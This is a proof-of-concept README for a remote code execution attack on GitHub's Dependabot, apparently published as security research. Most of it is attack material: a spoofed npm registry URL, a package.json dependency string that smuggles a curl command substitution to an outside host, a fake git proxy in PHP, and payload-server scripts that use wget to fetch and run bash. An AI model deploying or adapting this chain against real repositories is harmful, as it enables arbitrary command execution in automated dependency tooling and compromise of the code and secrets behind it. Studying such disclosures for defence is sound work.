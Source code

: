# PoC for dependabot RCE

Please replace `mocos.ktichen` to your own server.

After the preparation, you can see your dependabot result from `https://github.com/<USER>/<REPO>/network/updates`

## Prepare GitHub Repository

Add following files:

`.npmrc`
```
registry="http://registry.npmjs.org@mocos.kitchen/registry"
```

`package-lock.json`
```
{
  "name": "javascript",
  "version": "1.0.0",
  "lockfileVersion": 2,
  "requires": true,
  "dependencies": {
    "tyage-sample-package": {
      "version": "3.0.0"
    }
  }
}
```

`package.json`
```
{
  "name": "javascript",
  "version": "1.0.0",
  "main": "index.js",
  "license": "MIT",
  "private": true,
  "dependencies": {
    "package1": "git+https://github.com.mocos.kitchen/github.com/$($(curl$IFS@mocos.kitchen:3000/bash.txt))$(ps)?/github.com/tyage/tyage-sample-package.git#semver:4.0.0"
  }
}
```

`.github/dependabot.yml` (add this file after you prepared the servers!)
```
---
version: 2
updates:
  - package-ecosystem: npm
    directory: "/"
    schedule:
      interval: daily
```

## Prepare Servers

Following servers required.

1. Fake npm registry

`http://registry.npmjs.org@mocos.kitchen/registry/package1` should return this file:

```json
{
    "name": "tyage-sample-package",
    "version": "a"
}
```

2. Fake git repository

`https://github.com.mocos.kitchen/github.com/...` should run this PHP file:

```php
<?php
if (!empty($input)) {
  // proxy request to https://github.com/tyage/sample-package.git/git-upload-pack
  $url = "https://github.com/tyage/sample-package.git/git-upload-pack";
  $context = ["http" => [
    "method" => "POST",
    "header" => [ "Content-Type: application/x-git-upload-pack-request" ],
    "content" => $input
  ]];
  if (!empty($_SERVER['HTTP_GIT_PROTOCOL'])) {
    $context["http"]["header"][] = "Git-Protocol: version=2";
  }
  $result = file_get_contents($url, false, stream_context_create($context));

  header("content-type: application/x-git-upload-pack-result");
  echo $result;

} else {
  // proxy request to https://github.com/tyage/sample-package.git/info/refs?service=git-upload-pack
  $context = ["http" => [ "header" => [] ]];
  if (!empty($_SERVER['HTTP_GIT_PROTOCOL'])) {
    $context["http"]["header"][] = "Git-Protocol: version=2";
  }
  $url = "https://github.com/tyage/sample-package.git/info/refs?service=git-upload-pack";
  $result = file_get_contents($url, false, stream_context_create($context));

  header("content-type: application/x-git-upload-pack-advertisement");
  echo $result;
}
```

3. Payload server

`http://mocos.kitchen:3000/bash.txt` return this:

```bash
eval `wget mocos.kitchen:3000/payload.txt; bash payload.txt`
```

`http://mocos.kitchen:3000/payload.txt` return this:

```bash
# you can run arbitrary OS command here
echo hello world
```
